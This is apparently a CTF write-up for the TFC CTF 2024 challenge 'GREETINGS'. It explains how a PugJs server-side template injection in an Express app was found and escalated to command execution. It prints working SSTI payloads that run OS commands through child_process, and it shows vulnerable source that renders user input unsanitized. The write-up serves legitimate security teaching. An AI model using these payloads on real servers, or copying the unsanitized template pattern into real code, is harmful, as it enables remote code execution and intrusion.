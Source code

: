 # GREETINGS

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @siunam
- 234 solves / 50 points
- Author: @skyv3il
- Difficulty: Warmup
- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

Welcome to our ctf! Hope you enjoy it! Have fun

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804194303.png)

## Enumeration

Index page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804194317.png)

In here, we can submit a form with our name.

Let's try to submit a dummy name and see what will happen:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804194436.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804194450.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804194642.png)

When we clicked the "Submit" button, it'll send a GET request to `/result` with GET parameter `username`.

In the server's response from Burp Suite, we can see there's a response header called `X-Powered-By`, and its value is `Express`.

With that said, this web application is written in **JavaScript** with **[Node.js](https://nodejs.org/en)** JavaScript runtime and **[Express.js](https://expressjs.com/)** web application framework.

Now, since **our user input is being reflected on the response**, we should think about why the application did this.

In modern days of web application, the HTML contents are **dynamically generated**. To achieve this, there's a technology called "**Server-side templating**".

A quick Google search about vulnerabilities in server-side templating, we'll see a type of vulnerability called "**Server-Side Template Injection**", or **SSTI** for short.

In [HackTricks about SSTI's tips and tricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection), we'll see how we can test for SSTI vulnerability and learn different template engine's SSTI payloads.

After trying different Node.js based template engine's SSTI payloads, we see that template engine [PugJs](https://pugjs.org/api/getting-started.html) works:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804202144.png)

In PugJs, the template literal is `#{}`. In our case, we can try to make the server render the template `#{7*7}` to check if the server renders `49`. ($ 7 * 7 = 49 $)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804202545.png)

Nice! The server indeed rendered our template and returned `49`!

> Note: The `%23` is URL encoded `#`. If we don't URL encode it, the `{7*7}` part will not send to the server, because `#` is the [URI fragment](https://en.wikipedia.org/wiki/URI_fragment).

## Exploitation

Armed with the above information, we can confirm that this web application is vulnerable to **PugJs SSTI**!

In [HackTricks's PugJs SSTI payload](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs), we can achieve Remote Code Execution (RCE) via the following payload:

```pug
#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}
```

I won't go into the details of this payload, but it basically loads the [`child_process`](https://nodejs.org/api/child_process.html) Node.js module and uses function [`exec`](https://nodejs.org/api/child_process.html#child_processexeccommand-options-callback) to execute OS commands.

However, if we send the request with the above payload, it won't display the executed OS command result:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804203958.png)

This is because the above payload is a function and it didn't return anything.

To fix this, we can simply remove the function syntax and variable declaration:

```pug
#{global.process.mainModule.constructor._load("child_process").exec('id')}
```

Now send the new payload again:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804205904.png)

This time it returned `[object Object]`!

Why? This is because the `exec` function is asynchronous.

To solve this, we can change the `exec` function to [`execSync`](https://nodejs.org/api/child_process.html#child_processexecsynccommand-options), which is a synchronous function:

```pug
#{global.process.mainModule.constructor._load("child_process").execSync('id')}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804210143.png)

Nice! Now we can find where's the flag file path and read its content!

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804210224.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804210243.png)

- **Flag: `TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}`**

If you're curious the implementation of this vulnerable web application, we can read the source code file `app.js`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TFC-CTF-2024/images/Pasted%20image%2020240804210545.png)

**`app.js`:**
```javascript
const express = require('express');
const pug = require('pug');

const app = express();
const port = 8000;

app.set('view engine', 'pug');
app.set('views', './views');

app.get('/', (req, res) => {
    res.render('index');
});

app.get('/result', (req, res) => {
    // Get the username from the query string
    const username = req.query.username || 'Guest';

    // Vulnerable Implementation
    const templateString = `
doctype html
html(lang="en")
  head
    meta(charset="UTF-8")
    meta(name="viewport" content="width=device-width, initial-scale=1.0")
    title Result
    style.
      [...CSS stuff...]
  body
    .container
      h1 Welcome ${username}!
      p Give me a username and I will say hello to you.
    `;

    // Render the template without compiling
    const output = pug.render(templateString);

    // Send the rendered HTML as the response
    res.send(output);
});

app.listen(port, () => {
  console.log(`Server is running at http://localhost:${port}`);
});
```

As you can see, GET route (Endpoint) `/result` retrieves our `username` GET parameter's value, and directly renders the `username`'s value without any sanitization whatsoever. Therefore, this route is vulnerable to PugJs SSTI. 

## Conclusion

What we've learned:

1. PugJs Server-Side Template Injection (SSTI)
